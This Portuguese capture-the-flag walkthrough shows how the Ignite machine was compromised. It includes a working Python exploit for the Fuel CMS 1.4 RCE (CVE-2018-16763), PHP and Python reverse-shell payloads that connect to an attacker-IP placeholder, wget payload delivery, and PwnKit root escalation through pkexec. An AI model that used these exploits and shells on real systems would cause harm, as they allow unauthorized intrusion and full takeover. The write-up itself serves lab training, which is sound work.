# _**Ignite CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos uma página web com _Fuel CMS_  
Vamos realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-content/common.txt
> ```


Nosso primeiro passo é investigar a própria página web antes de irmos para os diretórios  
E já de cara encontramos informações importantes a se verificar  
Usuário e senha de _administrador_ padrão e versão do CMS: 1.4  



Conseguimos realizar login com sucesso!  



Vamos por enquanto deixar de lado e ir verificando os outros diretórios descobertos  
Parece que não temos nada tão relevante a primeira vista  
Voltando para a página de _administrador_  temos a seguinte parte  



Parece que podemos realizar upload de arquivos  
Primeiro, tentamos um script com PHP, mas sem sucesso  
Não é permitido a inclusão deste tipo de arquivo  
Tentamos modificar o tipo para similares como _.php5_, _.phtml_ e até _.php.jpg_, mas sem sucesso  

Por se tratar de um CMS, e sabendo sua versão, buscou-se uma vulnerabilidade no Google  
Encontramos a [CVE:2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763) e com [exploit ativo](https://www.exploit-db.com/exploits/47138)  
Após o download do _script_ e a tentativa de execução, notou-se alguns erros. Este código é para python2 e está desatualizado  
Realizando a correção, temos:
> ```bash
> import requests
> import urllib.parse
> 
> url = "http://[ip_address]:[port]"  # Altere para seu alvo
> 
> def find_nth_overlapping(haystack, needle, n):
>     start = haystack.find(needle)
>     while start >= 0 and n > 1:
>         start = haystack.find(needle, start + 1)
>         n -= 1
>     return start
> 
> while True:
>     cmd = input("cmd: ")
>     payload = "'+pi(print($a='system'))+$a('" + cmd + "')+'"
>     encoded_payload = urllib.parse.quote(payload)
>     target = f"{url}/fuel/pages/select/?filter={encoded_payload}"
>     
>     # Remova proxy se não estiver usando Burp
>     proxies = {"http": "http://127.0.0.1:8080"}  # Comente esta linha se não usar proxy
>     try:
>         r = requests.get(target, proxies=proxies)  # Use `proxies=None` se não usar proxy
>     except requests.exceptions.RequestException as e:
>         print(f"[!] Erro na requisição: {e}")
>         continue
> 
>     html = "<!DOCTYPE html>"
>     htmlcharset = r.text.find(html)
>     begin = r.text[0:20]
>     dup = find_nth_overlapping(r.text, begin, 2)
> 
>     print(r.text[0:dup])
> ```


Conseguimos retornar o ```id``` da máquina  
Podemos tentar obter um _shell reverso_  
Primeiro, verificamos se existe alguma versão do _Python_ no computador com ```python3 --version```  
Existe!  
Configuramos novamente o nosso código para podermos tentar obter um _shell reverso_  

> ```bash
> import requests
> import urllib.parse
> 
> # === CONFIGURAÇÕES ===
> target_url = "http://[ip_address]:[port]"  # Alvo
> lhost = "[vpn_ip_address]"              # Seu IP para receber a conexão reversa
> lport = "[port]"                       # Sua porta de escuta (nc)
> 
> # === PAYLOAD PHP reverse shell ===
> php_payload = f"""php -r '$sock=fsockopen("{lhost}",{lport});exec("/bin/sh -i <&3 >&3 2>&3");'"""
> 
> # Codifica e monta o exploit
> injection = f"' + pi(print($a='system')) + $a('{php_payload}') + '"
> encoded = urllib.parse.quote(injection)
> exploit_url = f"{target_url}/fuel/pages/select/?filter={encoded}"
> 
> # Opcional: configurar proxy (ex: Burp)
> proxies = {
>     "http": "http://127.0.0.1:8080",  # comente essa linha se não usar Burp
> }
> 
> # === DISPARO DO EXPLOIT ===
> print("[*] Enviando payload para executar reverse shell...")
> try:
>     r = requests.get(exploit_url, proxies=proxies)  # use proxies=None se não quiser proxy
>     print("[+] Payload enviado. Aguardando conexão em:", lhost, lport)
> except requests.exceptions.RequestException as e:
>     print("[-] Erro ao enviar payload:", e)
> ```

O _payload_ feito em PHP não funcionou  
Tentamos mais algumas vezes, alterando para _bash_, mas nada  
Foi então que surgiu a ideia de verificar se podiamos realizar upload de arquivo após a execução do primeiro _script_  
Um arquivo _teste.py_ com ```hello world``` foi criado e a partir da máquina-alvo, ```wget``` usado  

  

  

  

Sucesso!  
Temos execução de _scripts_ em python na máquina-alvo  
Vamos tentar agora obter um _reverse shell_  

Primeiro, criamos o _script_  
> ```bash
> import socket
> import subprocess
> import os
> 
> attacker_ip = "[ip_address]"
> attacker_port = [port]
> 
> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
> s.connect((attacker_ip, attacker_port))
> 
> os.dup2(s.fileno(), 0)
> os.dup2(s.fileno(), 1)
> os.dup2(s.fileno(), 2)
>
> subprocess.call(["/bin/sh", "-i"])
> ```

Em seguida, criamos um servidor http para conseguirmos enviar o arquivo
> ```bash
> python3 -m http.server [port]
> ```

Na máquina-alvo, usamos ```wget``` para conseguirmos o arquivo  
Damos permissão de execução  
E obtemos uma _shell reversa_  



# _**Escalando privilégios**_
Para podermos escalar priviégios dentro de www-data, vamos investigar o sistema  
Primeiro, executamos o comando ```find```  
> ```bash
> find / -perm -4000 -type f 2>/dev/null
> ```


Investigando o retorno, temos um arquivo que chama a atenção: pkexec  
Verificando sua versão, _.105_, sabemos que é vulnerável e podemos ganhar acesso _root_ a partir daí  
<mark>Em nossa máquina</mark>
> ```bash
> curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
> ```
> ```bash
> python3 -m http.server 80
> ```

<mark>Na máquina-alvo</mark>
> ```bash
> wget http://[ip_address]/PwnKit
> ```
> ```bash
> chmod +x PwnKit
> ```
> ```bash
> ./PwnKit
> ```



Basta buscar amba as flags!
